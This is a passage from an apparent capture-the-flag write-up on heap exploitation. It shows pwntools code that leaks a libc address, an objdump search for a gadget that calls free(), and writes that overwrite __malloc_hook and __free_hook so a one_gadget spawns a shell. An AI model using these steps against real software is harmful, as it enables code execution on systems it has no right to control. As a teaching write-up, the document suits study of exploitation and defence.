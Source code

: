 ```python

# reset list to "dummy", who's name now points a value containing a libc addr.
add(aout.symbols["list"], -0x40) 

lib = ELF("libc.so.6")

libc_addr = leak_top()
libc_base = libc_addr - lib.symbols["_IO_2_1_stdout_"]
print("LEAKED LIBC ADDR: 0x%08X" % libc_addr)
print("LIBC BASE ADDR: 0x%08X" % libc_base)
```

Finally, you need a gadget and to overwrite a function pointer with the location of the gadget. `one_gadget` will give you several gadgets to choose from, however, none of the conditions will be met at the callsite for `__malloc_hook` (you can't use `__free_hook` because the program doesn't call `free()`).

There's probably a couple ways around this problem. One that works is to **set `__malloc_hook` to be a gadget that calls `free()`. Then overwrite `__free_hook` with the `one_gadget` at offset `0x4526a`**.

What's a gadget that calls `free()`? 

```
$ objdump -M intel -S libc.so.6 | grep "free@plt" | grep call | head
   1fb5a:       e8 49 fd ff ff          call   1f8a8 <free@plt>
   1fb68:       e8 3b fd ff ff          call   1f8a8 <free@plt>
   1fb6f:       e8 34 fd ff ff          call   1f8a8 <free@plt>
   1fbdb:       e8 c8 fc ff ff          call   1f8a8 <free@plt>
   1fbe9:       e8 ba fc ff ff          call   1f8a8 <free@plt>
   1fe0d:       e8 6c fd ff ff          call   1fb7e <free@plt+0x2d6>
   1fe22:       e8 81 fa ff ff          call   1f8a8 <free@plt>
   201a0:       e8 03 f7 ff ff          call   1f8a8 <free@plt>
   201b3:       e8 f0 f6 ff ff          call   1f8a8 <free@plt>
   201c1:       e8 e2 f6 ff ff          call   1f8a8 <free@plt>
```
{:.contains-term}

Offset `0x1fb5a` will call `free()`, which in turn will call `__free_hook`, which in turn points to a `one_gadget` that launches a shell. For this challenge, this setup is sufficient to satisfy the conditions for the `one_gadget`.

```python
gadget = libc_base + 0x4526a
print("GADGET ADDR (req rsp+0x30 == null): 0x%08X" % gadget)

write64(libc_base + lib.symbols["__free_hook"], gadget)
write64(libc_base + lib.symbols["__malloc_hook"], libc_base + 0x1fb5a)

print("WROTE FREE GADGET ADDR: 0x%08X" % gadget)
print("WROTE MALLOC GADGET ADDR: 0x%08X (calls free)" % (libc_base + 0x1fb5a))
```

Finally, reset the state back to the nomination stage and nominate a new problem to trigger the `__malloc_hook` and launch a shell.
